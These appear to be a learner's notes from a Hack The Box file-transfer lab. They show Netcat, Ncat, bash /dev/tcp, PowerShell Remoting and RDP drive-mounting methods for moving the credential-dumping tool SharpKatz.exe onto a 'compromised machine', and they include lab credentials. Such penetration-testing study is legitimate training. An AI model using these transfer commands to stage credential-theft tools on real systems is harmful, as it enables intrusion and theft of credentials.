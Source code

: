 # Netcat & NCat
## Approach 1
This approach involved the victim to opens a server and we send a file to it.

### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
### Netcat - Attack Host - Sending File to Compromised machine
The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

```shell-session
alakin2504@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
alakin2504@htb[/htb]$ # Example using Original Netcat
alakin2504@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine
```shell-session
alakin2504@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
alakin2504@htb[/htb]$ # Example using Ncat
alakin2504@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
## Approach 2

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

=> What said here means that we will utilize outbound instead.

### Attack Host - Sending File as Input to Netcat
```shell-session
alakin2504@htb[/htb]$ # Example using Original Netcat
alakin2504@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat


```shell-session
alakin2504@htb[/htb]$ # Example using Ncat
alakin2504@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File


```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If the compromise machine somehow doesn't have Netcat or Ncat, we can use the dev/tcp from bash
### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

# Powershell
We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.

We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.


```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```


```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.

#### Create a PowerShell Remoting Session to DATABASE01


```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

We can use the `Copy-Item` cmdlet to copy a file from our local machine `DC01` to the `DATABASE01` session we have `$Session` or vice versa.

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session


```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost


```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


# RDP
We can use rdesktop (the application used to connect to an RDP session) to mount onto whatever we use rdesktop to connect to. xfreerdp also works
#### Mounting a Linux Folder Using rdesktop


```shell-session
alakin2504@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp


```shell-session
alakin2504@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
We can connect to the mounted using the Network Disk
![[Pasted image 20250209141418.png]]

Or this
![[Pasted image 20250209141425.png]]
